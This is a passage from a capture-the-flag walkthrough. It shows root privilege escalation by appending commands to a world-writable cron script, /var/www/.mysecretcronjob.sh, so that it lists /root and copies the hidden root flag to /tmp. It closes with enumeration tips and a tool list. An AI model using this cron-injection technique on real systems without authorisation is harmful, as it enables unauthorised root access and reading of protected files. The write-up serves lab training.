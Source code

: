 But even after waiting for some considerable time, nothing gets printed to the file. So, we need to check if the file `root.txt` is actually present at the location or so. This can be done by adding the command: `ls -la /root > /tmp/flag` to `/var/www/.mysecretcronjob.sh` and again wait for sometime to see the output.

```
boring@kral4-PC:/tmp$ cat flag 
total 40
drwx------  5 root root 4096 Jun 15 12:40 .
drwxr-xr-x 23 root root 4096 Jun 15 01:08 ..
-rw-------  1 root root  883 Jun 15 14:24 .bash_history
-rw-r--r--  1 root root 3136 Jun 15 12:40 .bashrc
drwx------  2 root root 4096 Jun 13 15:40 .cache
drwx------  3 root root 4096 Jun 13 15:40 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13 15:44 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15 01:01 .root.txt
-rw-r--r--  1 root root   66 Jun 14 21:48 .selected_editor
```

Here, we can see that the file has been named as `.root.txt` so we need to change our previous command a little bit like: `cat /root/.root.txt > /tmp/flag` and again wait for some time.

With this, we will get the root flag as well as complete the room!

As I said earlier, there was a lot of enumeration involved at the beginning to gain the initial foothold whereas the privilege escalation part was pretty simple. We could have used payloads to get a reverse shell as well if we wanted to by exploiting the shell file.

## Some Key Points to Take Away
1. Look closely at all the information on a web page as we can find some sensitive information.
2. In case of any string first, check it with `hash-identifier` and then check for different encoding methods to crack it.
3. If you see any doubtful image, check it for steganography.

## Tools to keep in handy:
1. [CyberChef](https://gchq.github.io/CyberChef/)
2. [Ultimate Hashing and Anonymity Toolkit](https://md5hashing.net/)